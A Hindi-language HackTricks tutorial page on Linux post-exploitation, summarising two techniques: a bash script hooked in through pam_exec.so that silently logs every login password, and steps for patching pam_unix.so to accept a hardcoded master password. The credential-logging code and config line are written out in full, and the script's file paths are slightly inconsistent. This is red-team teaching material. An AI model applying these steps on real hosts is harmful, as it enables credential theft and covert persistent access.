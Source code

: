 # लिनक्स पोस्ट-एक्सप्लोइटेशन

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **हमें** **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## PAM के साथ लॉगऑन पासवर्ड को स्निफ़ करें

आइए एक PAM मॉड्यूल कॉन्फ़िगर करें ताकि हर उपयोगकर्ता जो लॉगिन करता है, उसका पासवर्ड लॉग कर सकें। अगर आपको PAM क्या है इसका पता नहीं है तो देखें:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**अधिक विवरण के लिए [मूल पोस्ट](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/) देखें**। यह सिर्फ एक सारांश है:

**तकनीक अवलोकन:**
प्लगेबल प्रमाणीकरण मॉड्यूल (PAM) यूनिक्स-आधारित सिस्टमों पर प्रमाणीकरण को प्रबंधित करने में लचीलाई प्रदान करते हैं। वे लॉगिन प्रक्रियाओं को अनुकूलित करके सुरक्षा को बढ़ा सकते हैं लेकिन गलत तरीके से उपयोग किए जाने पर खतरे भी उठा सकते हैं। यह सारांश एक तकनीक को आउटलाइन करता है जिससे PAM का उपयोग करके लॉगिन क्रेडेंशियल्स को कैप्चर किया जा सकता है, साथ ही संशोधन रणनीतियों।

**क्रेडेंशियल्स को कैप्चर करना:**
- `toomanysecrets.sh` नामक एक बैश स्क्रिप्ट तैयार किया जाता है ताकि लॉगिन प्रयासों को लॉग किया जा सके, जिसमें तारीख, उपयोगकर्ता नाम (`$PAM_USER`), पासवर्ड (stdin के माध्यम से), और रिमोट होस्ट IP (`$PAM_RHOST`) को `/var/log/toomanysecrets.log` में कैप्चर किया जाता है।
- स्क्रिप्ट को क्रियाशील बनाया जाता है और `pam_exec.so` मॉड्यूल का उपयोग करके PAM कॉन्फ़िगरेशन (`common-auth`) में शामिल किया जाता है, जिसमें स्क्रिप्ट को चुपचाप चलाने और प्रमाणीकरण टोकन को स्क्रिप्ट को उजागर करने के विकल्प शामिल हैं।
- यह दिखाता है कि कैसे एक कंप्रोमाइज़्ड लिनक्स होस्ट को गुप्त रूप से क्रेडेंशियल्स लॉग करने के लिए उपयोग किया जा सकता है।
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### PAM में बैकडोरिंग

**अधिक विवरण के लिए [मूल पोस्ट](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9) देखें**। यह केवल एक सारांश है:

प्लगेबल प्रमाणीकरण मॉड्यूल (PAM) एक सिस्टम है जो लिनक्स के तहत उपयोगकर्ता प्रमाणीकरण के लिए उपयोग किया जाता है। यह तीन मुख्य अवधारणाओं पर काम करता है: **उपयोगकर्ता नाम**, **पासवर्ड**, और **सेवा**। प्रत्येक सेवा के लिए कॉन्फ़िगरेशन फ़ाइलें `/etc/pam.d/` निर्देशिका में स्थित हैं, जहां साझा पुस्तकालय प्रमाणीकरण का संचालन करती है।

**उद्देश्य**: PAM को संशोधित करें ताकि एक विशिष्ट पासवर्ड के साथ प्रमाणीकरण संभव हो, वास्तविक उपयोगकर्ता पासवर्ड को छोड़कर। यह विशेष रूप से `common-auth` फ़ाइल द्वारा उपयोग किए जाने वाले `pam_unix.so` साझा पुस्तकालय पर ध्यान केंद्रित है, जो पासवर्ड सत्यापन के लिए लगभग सभी सेवाओं द्वारा समाविष्ट किया जाता है।

### `pam_unix.so` को संशोधित करने के लिए चरण:

1. **`common-auth` फ़ाइल में प्रमाणीकरण निर्देशिका का पता लगाएं**:
- उपयोगकर्ता के पासवर्ड की जांच के लिए जिम्मेदार लाइन `pam_unix.so` को बुलाती है।
2. **स्रोत को संशोधित करें**:
- `pam_unix_auth.c` स्रोत फ़ाइल में एक शर्तमय वक्तव्य जोड़ें जो यदि एक पूर्वनिर्धारित पासवर्ड का उपयोग किया जाता है, तो पहुँच देता है, अन्यथा, यह सामान्य प्रमाणीकरण प्रक्रिया के साथ आगे बढ़ता है।
3. **पुनः कॉम्पाइल और पुनः रखें** संशोधित `pam_unix.so` पुस्तकालय को उचित निर्देशिका में।
4. **परीक्षण**:
- पूर्वनिर्धारित पासवर्ड के साथ विभिन्न सेवाओं (लॉगिन, ssh, sudo, su, स्क्रीनसेवर) में पहुँच प्रदान की जाती है, जबकि सामान्य प्रमाणीकरण प्रक्रियाएँ प्रभावित नहीं होती हैं।
